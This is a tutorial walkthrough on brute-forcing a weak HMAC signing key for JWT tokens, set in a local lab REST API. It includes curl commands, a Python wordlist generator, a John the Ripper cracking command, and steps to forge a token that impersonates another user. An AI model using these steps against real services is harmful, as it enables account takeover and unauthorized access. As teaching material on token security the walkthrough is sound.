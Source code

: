 ```yaml
---
title: "Hacking JWT Tokens: By Bruteforcing Weak Signing Key"
read_time: true
date: 2024-01-02
tags:
 - JWT
 - Security
---
```


This is the way of hacking JWT tokens signed using weak keys. We will be using John The Ripper for determining the correct signing key!

### JWT tokens

#### Introduction

> JSON Web Token (JWT) is an open standard that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret with the [HMAC algorithm](https://www.geeksforgeeks.org/hmac-algorithm-in-computer-network/).

JWT Tokens consist of three parts seperated by dots (`.`), which are:

* Header
    
* Payload
    
* Signature
    

JWT Token typically looks like: `aaaa.bbbb.cccc`

> ![encoded-jwt3](https://user-images.githubusercontent.com/76884959/196450773-c13f06b8-5fff-4c46-a5c2-3ed9edabc093.png )

Breaking down the different parts:

> ![](https://user-images.githubusercontent.com/76884959/196449704-fb0fc5ba-6b1f-4414-89ce-50c908f347f7.png )

#### How it works?

* The whole process is called **signing the JWT token**. The signing algorithm takes the header, the payload, and the secret to create a unique signature.
    

> ![bOHqZ](https://user-images.githubusercontent.com/76884959/196461005-f53cad09-472c-4fa9-b11a-e76857ec5689.png )

* Next step is the verification of the token, once the JWT is received, the verification will take its header and payload, and together with the secret that is still saved on the server, basically create a test signature. But the original signature that was generated when the JWT was first created is still in the token, right? And that's the key to this verification. Because now all we have to do is to compare the test signature with the original signature. And if the test signature is the same as the original signature, then it means that the payload and the header have not been modified.
    

> ![b2dzI](https://user-images.githubusercontent.com/76884959/196462855-a856240c-56eb-4b41-8d5f-5b8636a21736.png )

### Initial Scenario

The scenario consists of a REST API running on a target machine and uses JWT-based authorization.

> **Note**: The signing key used for token generation is weak and the REST API is present in the repo itself.

### Implementation

#### Step 1:

Check the presence oh the REST API.  
**Command**: `curl 127.0.0.1:500`

![](https://user-images.githubusercontent.com/76884959/196610094-e1dac5fd-441b-484b-a010-1eb5fa9f4eec.png )

#### Step 2:

Getting the JWt Token for the user with username `user1`.  
**Command**: `curl --location --request GET '`[`http://127.0.0.1:5000/login`](http://127.0.0.1:5000/login)`' \ --header 'Authorization: Basic dXNlcjE6ODk4OQ==' \ --data-raw ''`

![](https://user-images.githubusercontent.com/76884959/196610338-e1687f73-4974-4e0b-bedf-fc36ededa24e.png )

The response contains the JWT Token for the user.

#### Step 3:

Decoding the token header and payload parts using [https://jwt.io](https://jwt.io).

![](https://user-images.githubusercontent.com/76884959/196611018-98564f27-161e-47b1-be41-ca070cb9b340.png )

The token uses HS256 algorithm (a symmetric signing key algorithm).

Since it is mentioned in the challenge description that a weak secret key has been used to sign the token and the constraints on the key are also specified, a bruteforce attack could be used to disclose the correct secret key.

#### Step 4:

We'll be using John The Ripper (jtr) for performing the bruteforce attack. For installing jtr follow the give command: `sudo apt-get install john -y` or `sudo snap install john-the-ripper`

To check if it is installed type `john` in the terminal.

![](https://user-images.githubusercontent.com/76884959/196611821-f6f05e27-fc56-4b16-bbcf-d5ee2c4d2f8c.png )

#### Step 5:

Save the JWT Token obtained in Step 2 into a file called `jwt.txt`.

#### Step 6:

Generate a wordlist used for brute-forcing the signing-key: Save the following Python script as [`generate-wordlist.py`](http://generate-wordlist.py):

```plaintext
fp = open("wordlist.txt", "w")

for i in range (10):
  for j in range (10):
    for k in range (10):
      for l in range (10):
        fp.write(str(i) + str(j) + str(k) + str(l) + "\n");

fp.close()
```

Run the above python script to generate the wordlist. **Command**: `python3` [`generate-wordlist.py`](http://generate-wordlist.py)

#### Step 7:

The final step is to burte-force the signing key: **Command**: `john jwt.txt --wordlist=wordlist.txt --format=HMAC-SHA256`

![](https://user-images.githubusercontent.com/76884959/196613036-990d3989-74fb-4c06-8586-a3107e86d6e4.png )

#### Step 8:

Since the secret key for signing the token is known, it can be used to create a valid token. Use [https://jwt.io](https://jwt.io) to create a new token. Over here we change the username of the user in order to obtain a new token which can only be used by `user2` and not `user1`. Since the signing key is already known, the username of the user could be changed and the corresponding token would be generated.

![](https://user-images.githubusercontent.com/76884959/196614220-35db0341-788a-43e8-8bdb-fe885386ebfa.png )

Now this forged token will allow `user1` to access the secrets which were only allowed to `user2`.

`user1` is authenticated and the user is able to see the secret namely, `password1` for the token generated with the username-`user1`

> ![](https://user-images.githubusercontent.com/76884959/196614923-94b2cc63-ad0e-42a9-b13d-c6274794fdc0.png )

Now, as the new token is forged, `user1` has the token corresponding to `user2`. which enables `user1` to get an acess to `user2`'s secret.

> ![](https://user-images.githubusercontent.com/76884959/196615470-3719f817-7e51-495c-b291-67061c1d6f10.png )